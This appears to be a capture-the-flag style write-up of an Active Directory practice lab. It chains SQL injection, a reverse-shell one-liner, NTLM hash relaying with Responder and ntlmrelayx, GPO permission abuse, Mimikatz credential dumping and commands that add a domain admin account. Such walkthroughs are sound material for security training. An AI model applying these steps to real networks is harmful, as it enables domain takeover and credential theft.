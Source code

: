 # lkylabs version 1 writeup by chryzsh

This is a detailed writeup of version 1 of lkys37en's Active Directory lab. It contains elements of network enumeration, domain enumeration, relaying and abusing configuration/misconfiguration of security controls.

**Tools**
* Empire
* Powershell
* Responder
* Bloodhound
* Powerview
* Mimikatz
* Sqlmap
* Nmap
* CrackMapExec


## Network enumeration
nmap 10.7.12.11
10.7.12.12
10.7.12.13

## Getting a foothold
Sqlmap

Sql injection on WEB01 10.7.12.12 leads to os-shell as lab\sqladmin in sqlmap
In os-shell, use oneliner ninshang Invoke-PowerShellTcp.ps1 to get a proper shell


## Get a domain user
Get list of domain users with net users /domain


## Domain enumeration
Bloodhound
Powerview

## File share enumeration
Powerview
net view \\fs01
dir \\fs01


Enumerate file shares. Find the \\FS01.lab.local\Groupdata using dir \\FS01.lab.local\ as sqladmin. You can also try net view \\fs01
The file share contains a VPN file that can be used to open a L2 tunnel into the internal lab on 10.8.13.0/24 subnet



## Relaying
Responder
ntlmrelay
CME?

Launch responder and capture netntlmv2 hashes that can be relayed. Responder should pick up two users
responder -I tap0 -wrf
Make a list of target machines, those should be WS05 if you check permissions of the users that are picked up.
Use ntlmrelay to relay the hashes and execute the ninshang powershell oneliner. Keep a listener ready
ntlmrelayx.py -tf targets.txt -c 'powershell.exe blabla oneliner'
A shell should now be granted on the target box as the user who's hash was relayed (lab\DPayne)


## GPO enumeration
Powerview

Enumerate GPOs with Get-NetGPOGroup to disover a GPO called MailServer-Config, which is interesting
Convert the SID of the Member to domain name
Convert-SidToName S-1-5-21-1704012399-894155344-4184019992-1154
This resolves to BUILTIN\Administrators
Enumerate GPOs further, including the MailServer-Config
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
This shows that Server Admins has write permissions on the GPO, which is a serious misconfig
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
Get-NetGPO -DisplayName MailServer-Config | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
We see that the group "Server Admins" has modification rights on this GPO. Let's trackthis back to which machines the GPO is applied to
Get-NetOU -GUID "{2259E5B0-3B49-4704-98BB-5A9581B54E8E}" | %{Get-NetComputer -ADSpath $_}
The result is merely MX01.lab.local, which indicates the GPO is applied on MX01
To view the GPO itself use: type "\\lab.local\sysvol\lab.local\Policies\{2259E5B0-3B49-4704-98BB-5A9581B54E8E}\MACHINE\Preferences\Groups\Groups.xml"
This GPO apparently adds a group to the builtin Administrators group on MX01. This can then be edited to instead add the "Server Admins" group.
To trigger the GPO for a specific machine use: Invoke-GpUpdate -Computer MX01 -Force
In a few minutes the GPO should be pushed to MX01 and local admin privileges should be granted to "Server Admins". It is then possible to use WinRM or other tricks to spawn a shell on the box.


## Getting domain admin
Mimikatz

Now, execute Mimikatz to get the credentials of users on the box. This gets the credentials of BDavis, a highly privileged server admin. Spawn a shell as BDavis on the box
Import Powerview on this box
Now, execute Mimikatz on MX01 and discover another user and his/her plaintext credentials. This user is domain admin so spawn a new shell. An alternative here would be using token impersonation.
Proceed to add yourself as a user on the domain and add yourself to the domain.
net user chryzsh password /add /domain
net group "Domain Admins" /add chryzsh /domain
net group "Remote Desktop Users" /add lab\chryzsh /domain

